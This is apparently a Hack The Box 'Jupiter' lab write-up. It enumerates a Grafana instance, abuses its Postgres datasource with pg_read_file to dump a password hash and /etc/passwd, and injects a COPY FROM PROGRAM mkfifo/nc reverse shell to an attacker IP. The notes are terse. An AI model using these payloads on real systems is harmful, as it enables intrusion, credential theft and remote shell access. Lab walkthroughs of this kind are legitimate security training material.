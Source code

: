# Introduction
<img width="684" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/30184ea8-6e74-4147-8627-a560a4492ada">

# Nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx jupiter.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- jupiter.htb
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# user.txt

## HTTP (port 80)

we found a "Source" folder
we found a "sass" folder

sous domaine : kiosk.jupiter.htb
Grafana v9.5.2

http://kiosk.jupiter.htb/metrics

{db_name="grafana"}

http://kiosk.jupiter.htb/api/dashboards/uid/jMgFGfA4z
we found there is a user named admin

{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"select pg_read_file('/var/lib/grafana/grafana.db' , 0 , 1000000);","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":386}],"range":{"from":"2023-10-21T04:58:39.945Z","to":"2023-10-21T10:58:39.945Z","raw":{"from":"now-6h","to":"now"}},"from":"1697864319945","to":"1697885919945"}


SCRAM-SHA-256$4096:K9IJE4h9f9+tr7u7AZL76w==$qdrtC1sThWDZGwnPwNctrEbEwc8rFpLWYFVTeLOy3ss=:oD4gG69X8qrSG4bXtQ62M83OkjeFDOYrypE3tUv0JOY=

/usr/share/grafana/README.md



root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
juno:x:1000:1000:juno:/home/juno:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
fwupd-refresh:x:113:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
grafana:x:115:121::/usr/share/grafana:/bin/false
jovian:x:1001:1002:,,,:/home/jovian:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution

DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table

{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"DROP TABLE IF EXISTS cmd_exec;   CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.221 6666 >/tmp/f'; SELECT * FROM cmd_exec;","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":386}],"range":{"from":"2023-10-21T04:58:39.945Z","to":"2023-10-21T10:58:39.945Z","raw":{"from":"now-6h","to":"now"}},"from":"1697864319945","to":"1697885919945"}
